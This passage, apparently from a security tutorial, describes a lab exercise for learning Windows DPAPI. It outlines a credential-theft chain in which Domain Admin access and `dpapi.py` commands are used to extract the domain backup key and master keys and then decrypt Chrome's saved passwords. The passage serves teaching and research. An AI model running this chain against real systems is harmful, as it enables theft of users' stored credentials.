If you want to internalize DPAPI, set up a lab domain controller, create a user account, log in as that user, save a few passwords in Chrome and Credential Manager. From a Linux attack host with Domain Admin credentials, run through the full chain: extract the backup key with `dpapi.py backupkeys`, retrieve the user's master keys via SMB, decrypt them with `dpapi.py masterkey -pvk`, retrieve Chrome's Login Data and Local State, and decrypt the saved passwords. The exercise takes about an hour but makes every abstract concept (master keys, CREDHIST, domain backup keys, per-application encryption layers) concrete. Once you have seen it end to end, DonPAPI's automation makes complete sense and you can use it with full understanding of what is happening under the hood. Every subsequent DPAPI-related research paper or technique will slot naturally into the mental model.
